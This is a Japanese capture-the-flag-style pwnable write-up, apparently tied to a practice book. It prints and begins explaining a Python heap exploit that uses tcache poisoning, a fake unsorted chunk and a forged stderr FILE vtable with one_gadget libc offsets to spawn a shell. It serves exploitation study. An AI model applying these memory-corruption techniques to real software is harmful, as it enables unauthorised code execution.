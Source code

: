 ```python: exploit.py
    
    # src: x
    # dst: x'
    malloc('D', size_malloc(dst))

    # tcache(0x20用): D -> D
    read('C', pad18h + pack(0x21))
    free('I')
    free('D')

    # tcache(0x20用): D -> E
    read('C', pad18h + pack(0x21) + pack(0xe0)[:1])
    malloc('D', 0x10)
    malloc('E', 0x10)

edit(_flags, pack(0))
edit(_IO_write_ptr, pack(2 ** 64 - 1))
edit(_IO_buf_base, pack(__default_morecore - one_gadget))
copy(_IO_buf_end, __more_core, b'')
edit(vtable, pack(_IO_str_jumps - 0x20)[:2])
copy(_allocate_buffer, __more_core, pack(call_rax)[:2])

# 3: fake unsorted chunkの作成
edit(global_max_fast - 0x8, pack(0x421))
read('C', pad18h + size_chunk(global_max_fast + 0x8))
free('D')

# 4: force stderr activity
read('E', pad18h + pack(0x425))
malloc('F', 0x20)

io.interactive()
```
見ての通り長いので一つ一つ順を追って説明していく。

### 前準備
攻撃の際同じ処理を繰り返し書くのはだるいので関数にしておく。
```python: exploit.py#L7
def malloc(var: str, size: int) -> bytes:
    io.sendline(('%s=malloc(%d)'%(var, size)).encode())

def free(var: str) -> bytes:
    io.sendline(('free(%s)'%var).encode())

def read(var: str, data: bytes) -> bytes:
    io.sendline(('%s=read(%d)'%(var, len(data))).encode())
    io.send(data)

def exit() -> bytes:
    io.sendline('exit(0)'.encode())
```
また攻撃に使用するlibc内のアドレスを定義しておく。これらをどう使うかは後で説明する。
```python: exploit.py#L20
one_gadget          = 0x04f2c5
__default_morecore  = 0x09b190
call_rax            = 0x09b2a5
_IO_str_jumps       = 0x3e8360
main_arena          = 0x3ebc40
fastbinsY           = main_arena + 0x10
__more_core         = 0x3ec4d8
stderr              = 0x3ec680
_flags              = stderr + 0x00
_IO_write_ptr       = stderr + 0x28
```

[^1]: 草野 一彦「解題pwnable」(https://amzn.asia/d/1JasEUa)